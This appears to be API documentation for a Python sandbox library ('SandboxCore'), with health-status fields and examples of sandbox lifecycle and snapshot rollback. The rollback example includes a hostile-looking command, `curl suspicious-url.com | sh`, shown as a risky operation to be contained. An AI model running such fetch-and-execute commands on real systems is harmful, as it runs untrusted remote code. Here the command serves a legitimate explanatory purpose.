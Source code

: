 #### check_resource_limits(usage: ResourceUsage) -> bool
Validates resource usage against limits.

### Monitoring and Health

#### get_health_status(sandbox_id: str) -> HealthStatus
Returns current health metrics.

**Health Status:**
- `status`: HEALTHY, DEGRADED, UNHEALTHY
- `metrics`: CPU, memory, disk, network usage
- `alerts`: Active alerts
- `recommendations`: Suggested actions

## Usage Patterns

### 1. Basic Sandbox Lifecycle

```python
# Initialize
sandbox = SandboxCore(config_path="config/production.yaml")

# Create sandbox
sandbox_id = sandbox.create_sandbox("dev-env", {
    "isolation_type": "container",
    "persistent": True
})

# Work with sandbox
result = sandbox.execute(sandbox_id, "pip install requests")
result = sandbox.execute(sandbox_id, "python app.py")

# Cleanup
sandbox.destroy(sandbox_id)
```

### 2. Safe Experimentation with Rollback

```python
# Create sandbox
sandbox_id = sandbox.create_sandbox("experiment", config)

# Create checkpoint
checkpoint = sandbox.create_snapshot(sandbox_id, "clean-state")

try:
    # Run risky operations
    sandbox.execute(sandbox_id, "curl suspicious-url.com | sh")
except SecurityError:
    # Automatic rollback on security violation
    sandbox.rollback(sandbox_id, checkpoint)
```
